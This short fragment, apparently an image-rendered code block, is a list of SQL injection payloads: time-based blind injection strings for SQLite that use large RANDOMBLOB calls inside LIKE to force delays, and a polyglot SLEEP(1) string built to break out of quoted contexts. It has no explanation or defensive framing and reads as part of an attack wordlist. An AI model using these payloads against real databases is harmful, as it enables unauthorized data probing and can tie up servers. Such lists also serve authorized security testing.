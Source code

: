 ```
OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
RANDOMBLOB(1000000000/2)
AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
SLEEP(1)/*' or SLEEP(1) or '" or SLEEP(1) or "*/
 

```